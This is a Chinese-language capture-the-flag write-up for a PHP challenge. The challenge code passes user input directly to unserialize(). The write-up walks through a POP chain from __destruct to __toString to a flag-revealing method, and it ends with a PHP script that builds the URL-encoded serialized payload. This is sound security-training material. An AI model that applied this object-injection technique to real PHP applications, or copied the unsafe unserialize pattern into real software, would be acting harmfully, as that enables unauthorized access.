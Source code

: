 # 题目  
打开环境，发现下列代码  
```php
<?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w00m = $_GET['w00m'];
unserialize($w00m);
```

# 思路  

最终目标肯定是要执行w44m的Getflag函数，肯定是pop链调用，代码执行了一个反序列化的过程，没有__wakeup()函数，但是有__destruct()，这肯定就是链的入口，在w33m中有一个__toString()函数，如果w33m->w00m是一个w44m类，并且w33m->w22m是一个字符串"Getflag"，那么就可以通过调用w33m->toString()调用Getflag函数，要调用w33m->toString,可以将w22m->w00m设为一个w33m类。  
所以get传入w00m的值是一个w22m类反序列化的值，w22m->w00m是一个w33m对象，这个w33m对象的w00m是一个w44m对象，w22m为一个字符串，这个w44m对象的成员要符合条件  


# wP  
```php  
<?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w2=new w22m();
$w3=new w33m();
$w4=unserialize('O:4:"w44m":2:{s:5:"admin";s:4:"w44m";s:6:"passwd";s:5:"08067";}');

$w3->w00m=$w4;
$w3->w22m='Getflag';
$w2->w00m=$w3;

echo urlencode(serialize($w2));


```
因为w44m类的成员都是私有对象，如果直接new一个，就无法修改，所以要手动构造，最后要使用urlencode编码，否则会有不可打印字符

